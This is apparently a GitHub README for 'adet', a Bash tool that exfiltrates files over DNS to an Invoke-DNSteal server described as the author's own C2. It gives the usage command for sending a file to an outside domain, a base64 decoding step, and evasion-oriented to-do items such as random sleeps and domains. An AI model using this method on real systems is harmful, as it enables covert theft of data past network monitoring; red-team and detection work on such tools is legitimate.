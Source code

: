 # adet: Another DNS Exfiltration Tool
Bash script for sending file to Invoke-DNSteal server

# Instructions:
1. Run [Invoke-DNSteal.py](https://github.com/JoelGMSec/Invoke-DNSteal ) in your DNS server
2. Use:
```
./adet.sh <file> <domain>
```
3. Decode the received file in base64
```
base64 -d <received_file>
```

Example: Sending [byp4xx.py](https://github.com/lobuhi/byp4xx/blob/main/byp4xx.py) to my own customized C2/DNS server 
![](dnsteal.jpg)

#TO-DO:
 - Add random sleep option
 - Add random domain when DNS server is specified
 - Add byte length option
 - Add TCP option
